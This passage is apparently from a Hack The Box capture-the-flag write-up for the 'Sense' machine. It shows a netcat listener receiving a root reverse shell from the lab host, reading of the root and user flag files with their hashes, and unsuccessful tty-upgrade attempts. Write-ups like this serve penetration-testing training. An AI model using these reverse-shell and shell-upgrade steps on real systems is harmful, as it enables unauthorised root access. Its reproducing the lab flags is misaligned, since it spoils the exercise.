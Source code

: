 Wow instant root

```bash
┌──(bravosec㉿fsociety)-[~/htb/Sense]
└─$ nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.10.16.13] from (UNKNOWN) [10.129.161.53] 11717
sh: can't access tty; job control turned off

# id
uid=0(root) gid=0(wheel) groups=0(wheel)

#
```

```bash

# cat /root/root.txt
d08c32a5d4f8c8b10e76eb51a69f1a86

# ls -la /home
total 16
drwxr-xr-x   4 root   wheel     512 Oct 14  2017 .
drwxr-xr-x  26 root   wheel     512 Oct 14  2017 ..
drwxrwxr-x   2 root   operator  512 Oct 14  2017 .snap
drwxr-xr-x   2 rohit  nobody    512 Oct 14  2017 rohit

# cat /home/rohit/user.txt
8721327cc232073b40d27d9c17e7348b#
```

# Additional
---

## Learnt

- Always run **autorecon** as a routine to not miss something
- Run commands from `/results/$IP/scans/_manual_commands.txt` when common enumeration didn't work well
- Always try usernames and passwords in lowercase


## Failed Attempts


### Getting a tty

Struggled a bit at getting a `tty`... Things can get weird on **OpenBSD**

```bash
┌──(bravosec㉿fsociety)-[~/htb/Sense]
└─$ nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.10.16.13] from (UNKNOWN) [10.129.161.53] 30618
sh: can't access tty; job control turned off

# script /dev/null -c bash
script: not found

# which script

# where script
where: not found

# python3 -c 'import pty; pty.spawn("/bin/bash")'
```